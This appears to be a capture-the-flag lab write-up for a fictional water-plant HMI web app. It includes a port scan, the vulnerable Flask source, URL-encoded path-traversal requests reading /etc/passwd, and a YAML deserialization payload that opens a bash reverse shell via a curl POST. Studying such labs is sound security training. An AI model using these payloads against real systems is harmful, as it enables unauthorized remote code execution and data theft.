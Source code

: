 ```yaml
---
title: 'Persistence - web'
author: 'KennyH'
---
```



# Persistence - web

## Description

After the notorious malware strike on the Virelia Water Control Facility, phantom alerts and erratic sensor readings plague a system that was supposed to be fully remediated.

As a Black Echo red-team specialist, you must penetrate the compromised portal, unravel its hidden persistence mechanism, and neutralise the backdoor before it can be reactivated.

----


## IP 10.10.174.195 8080

----

## Ports

```bas
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.24.0 (Ubuntu)
8080/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Finds

### Files
----

#### Debug log

http://10.10.174.195:8080/logs/view?name=debug.log

```yaml
SIGNATURE': 'secr3tFTW192d2390', 'PLCS': [{'id': 'PLC-101', 'ip': '192.168.10.11'}, {'id': 'PLC-102', 'ip': '192.168.10.12'}], 'SENSORS': [{'name': 'FlowRate', 'unit': 'L/s'}, {'name': 'Pressure', 'unit': 'bar'}]}
2025-06-28T09:56:21 DEBUG: loader script at /opt/hmi/update.py
2025-06-28T09:56:21 DEBUG: webapp script at /opt/hmi/app.py

```

Source code
```python
#!/usr/bin/env python3
import subprocess
import os
import re
import time
import yaml
import random
import datetime
from flask import (
    Flask, request, render_template,
    send_from_directory, jsonify
)

app = Flask(__name__)
APP_ROOT = &#39;/opt/hmi&#39;

def init_debug():
    cfg = yaml.safe_load(open(os.path.join(APP_ROOT, &#39;config.yaml&#39;), &#39;r&#39;))
    dbg = os.path.join(APP_ROOT, &#39;logs&#39;, &#39;debug.log&#39;)
    ts = time.strftime(&#39;%Y-%m-%dT%H:%M:%S&#39;)
    with open(dbg, &#39;a&#39;) as d:
        d.write(f&#34;{ts} STARTUP CONFIG: {cfg}\n&#34;)
        d.write(f&#34;{ts} DEBUG: loader script at {APP_ROOT}/update.py\n&#34;)
        d.write(f&#34;{ts} DEBUG: webapp script at {APP_ROOT}/app.py\n&#34;)
    return cfg

app_config = init_debug()

def log(msg, dest=&#39;app&#39;):
    path = os.path.join(APP_ROOT, &#39;logs&#39;, f&#39;{dest}.log&#39;)
    ts = time.strftime(&#39;%Y-%m-%dT%H:%M:%S&#39;)
    with open(path, &#39;a&#39;) as f:
        f.write(f&#34;{ts} {msg}\n&#34;)

@app.route(&#39;/&#39;)
def index():
    return &#39;&#39;, 302, {&#39;Location&#39;: &#39;/dashboard&#39;}

@app.route(&#39;/dashboard&#39;)
def dashboard():
    ll = os.path.join(APP_ROOT, &#39;logs&#39;, &#39;loader.log&#39;)
    last = &#39;Never&#39;
    if os.path.exists(ll):
        lines = open(ll).read().splitlines()
        if lines:
            last = lines[-1]
    return render_template(&#39;dashboard.html&#39;, plcs=app_config[&#39;PLCS&#39;], last_seen=last)

@app.route(&#39;/telemetry&#39;)
def telemetry():
    return render_template(&#39;telemetry.html&#39;)

@app.route(&#39;/sensors&#39;)
def sensors():
    labels = [(datetime.datetime.now() - datetime.timedelta(minutes=60 - i*10)).strftime(&#39;%H:%M&#39;) for i in range(7)]
    flow = [round(random.uniform(12,17),2) for _ in labels]
    pressure = [round(random.uniform(1.2,1.5),2) for _ in labels]
    return jsonify({&#39;labels&#39;: labels, &#39;datasets&#39;: [
        {&#39;label&#39;:&#39;FlowRate&#39;,&#39;data&#39;:flow},
        {&#39;label&#39;:&#39;Pressure&#39;,&#39;data&#39;:pressure}
    ]})

@app.route(&#39;/static/&lt;path:fname&gt;&#39;)
def static_files(fname):
    return send_from_directory(os.path.join(APP_ROOT, &#39;static&#39;), fname)

@app.route(&#39;/config/update&#39;, methods=[&#39;GET&#39;,&#39;POST&#39;])
def config_update():
    if request.method == &#39;POST&#39;:
        sig = request.headers.get(&#39;X-FTW&#39;,&#39;&#39;)
        if sig != app_config[&#39;SIGNATURE&#39;]:
            return &#39;Forbidden&#39;, 403
        if request.content_type != &#39;application/x-yaml&#39;:
            return &#39;Unsupported Media Type&#39;, 415
        data = request.data
        with open(os.path.join(APP_ROOT, &#39;config.yaml&#39;), &#39;wb&#39;) as f:
            f.write(data)
        log(&#39;Configuration updated&#39;, &#39;app&#39;)
        subprocess.Popen([&#39;sudo&#39;, &#39;python3&#39;, os.path.join(APP_ROOT, &#39;update.py&#39;)])
        return &#39;Configuration applied&#39;, 200
    return render_template(&#39;update.html&#39;)

@app.route(&#39;/logs/view&#39;)
def view_logs():
    raw_qs = request.environ.get(&#39;QUERY_STRING&#39;, &#39;&#39;)
    print(raw_qs)
    if &#39;/&#39; in raw_qs:
        return &#39;No logs found&#39;, 400

    name = request.args.get(&#39;name&#39;, &#39;&#39;)

    path = os.path.join(APP_ROOT, &#39;logs&#39;, name)

    if not os.path.exists(path):
        return &#39;Log not found&#39;, 404

    with open(path, &#39;r&#39;, errors=&#39;ignore&#39;) as f:
        lines = f.read().splitlines()
    return render_template(&#39;logs.html&#39;, name=name, lines=lines)
if __name__==&#39;__main__&#39;:
    app.run(host=&#39;0.0.0.0&#39;, port=8080)
```
### Logins
----

### Exploits
----

Found LFI on path : http://<IP_HERE>:8080/logs/view?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

Source code for app : http://<IP_HERE>:8080/logs/view?name=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fopt%2Fhmi%2Fapp%2Epy

Payload.yaml
```yaml
# payload.yaml
!!python/object/apply:os.system ["bash -c 'bash -i >& /dev/tcp/<IP_HERE>/<PORT_HERE> 0>&1'"]
```

Post request to spawn shell
```bash
curl -X POST \
  -H "X-FTW: secr3tFTW192d2390" \
  -H "Content-Type: application/x-yaml" \
  --data-binary @payload.yaml \
  http://<IP_HERE>:8080/config/update
```

### Priv escalation
----

## Random